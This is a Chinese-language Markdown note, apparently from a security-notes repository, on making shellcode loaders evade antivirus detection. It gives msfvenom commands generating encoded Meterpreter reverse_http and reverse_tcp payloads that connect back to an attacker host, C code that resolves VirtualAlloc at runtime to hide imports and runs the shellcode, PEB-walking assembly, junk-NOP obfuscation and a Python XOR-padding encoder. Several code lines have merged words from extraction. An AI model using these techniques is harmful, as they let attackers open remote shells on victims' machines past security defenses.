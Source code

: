 <!-- TOC -->

- [1. shellcode动态加载](#1-shellcode动态加载)
- [2. 敏感API动态调用](#2-敏感api动态调用)
    - [2.1. 绕过IAT检测：利用LoadLibrary和GetProcAddress动态获取函数地址](#21-绕过iat检测利用loadlibrary和getprocaddress动态获取函数地址)
    - [2.2. 绕过LoadLibrary检测：利用PEB动态获取LoadLibrary函数地址](#22-绕过loadlibrary检测利用peb动态获取loadlibrary函数地址)
    - [2.3. 绕过PEB获取LoadLibrary函数地址代码检测：花指令](#23-绕过peb获取loadlibrary函数地址代码检测花指令)
- [3. shellcode加密](#3-shellcode加密)
- [4. 虚拟机反调试](#4-虚拟机反调试)

<!-- /TOC -->
# 1. shellcode动态加载
将攻击代码单独编译并静态的存储在数据段中，在程序执行时动态加载。shellcode可以自己编写或者使用 msf 生成。
```bash
msfvenom -p windows/meterpreter/reverse_http-e x86/shikata_ga_nai -i 12 -b '\x00' LHOST=[your remote ip addres] LPORT=[listeningport] -f c > hacker.c
msfvenom -p windows/meterpreter/reverse_tcp-e x86/shikata_ga_nai -i 12 -b '\x00' LHOST=[your remote ip addres]LPORT=[listening port] -f c > hacker.c
# 使用reverse_tcp_rc4对会话进行加密
msfvenom -p windows/meterpreter/reverse_tcp_rc4-e x86/shikata_ga_nai -i 12 -b '\x00' LHOST=[your remote ip addres]LPORT=[listening port] -f c > hacker.c
```
# 2. 敏感API动态调用
## 2.1. 绕过IAT检测：利用LoadLibrary和GetProcAddress动态获取函数地址
```c
    HMODULE hModule = LoadLibrary(_T("Kernel32.dll"));
    HANDLE shellcode_handler;
    FARPROC Address = GetProcAddress(hModule,"VirtualAlloc");   //拿到virtualalloc的地址
    _asm
    {
        push 40h  //push传参
        push 1000h
        push 29Ah
        push 0
        call Address  //函数调用
        movshellcode_handler, eax
    }
    memcpy(shellcode_handler, newshellcode,sizeof newshellcode);
    ((void(*)())shellcode_handler)();
```
## 2.2. 绕过LoadLibrary检测：利用PEB动态获取LoadLibrary函数地址
```c
_asm {
    mov esi, fs:[0x30]//得到PEB地址
    mov esi, [esi + 0xc]//指向PEB_LDR_DATA结构的首地址
    mov esi, [esi + 0x1c]//一个双向链表的地址
    mov esi, [esi]//得到第二个条目kernelBase的链表
    mov esi, [esi]//得到第三个条目kernel32链表（win10）
    mov esi, [esi + 0x8] //kernel32.dll地址
    mov hModule, esi
}
```
## 2.3. 绕过PEB获取LoadLibrary函数地址代码检测：花指令
```x86asm
_asm {
    mov esi, fs:[0x30]//得到PEB地址
    NOP
    NOP
    NOP
    NOP
    NOP
    mov esi, [esi + 0xc]//指向PEB_LDR_DATA结构的首地址
    NOP
    NOP
    NOP
    NOP
    mov esi, [esi + 0x1c]//一个双向链表的地址
    NOP
    NOP
    NOP
    NOP
    mov esi, [esi]//得到第二个条目kernelBase的链表
    NOP
    NOP
    NOP
    mov esi, [esi]//得到第三个条目kernel32链表（win10）
    NOP
    NOP
    mov esi, [esi + 0x8] //kernel32.dll地址
    NOP
    NOP
    mov hModule, esi
}
```
# 3. shellcode加密
```python
defgenerate_payload(shellcode):
    ba = bytearray(shellcode)
    newshellcode = []
    res = ''
    for b in ba:
        nchar = "\\"
        b = b ^ 113 ^ 0x77
        b = hex(b)
        for i in range(1, len(b)):
            nchar = nchar + b[i]
        res = res + nchar
        newshellcode.append(nchar)
    trash = "\\x00"
    nnshellcode = []
    for i in range(4 * len(newshellcode)):
        if i % 4 == 0:   #ou
            nnshellcode.append(newshellcode[int(i / 4)])
        else:
            nnshellcode.append(trash)
    fres = ''
    for i in nnshellcode:
        fres = fres + i
    print(fres)
```
这里是先将shellode和113以及0×77进行异或，再在shellcode中相邻的两个字节中填充三个\x00（空字节）。
# 4. 虚拟机反调试
[虚拟机检测与反沙箱](../反逆向工程/虚拟机检测与反沙箱.md)
